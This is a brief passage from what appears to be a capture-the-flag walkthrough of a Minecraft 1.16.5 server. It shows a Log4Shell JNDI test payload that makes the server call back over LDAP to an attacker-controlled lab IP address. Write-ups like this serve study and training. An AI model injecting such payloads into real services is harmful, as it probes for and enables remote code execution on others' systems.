 ![making 1.16.5 version](/img/crafty/crafty_minecraft_version_create.png)

Step 3 make a test payload and determine if the server can call back to a provided IP address. `${jndi:ldap://10.10.14.26/test}` is the payload I went for.

![log4j test](/img/crafty/crafty_minecraft_log4jtest.png)
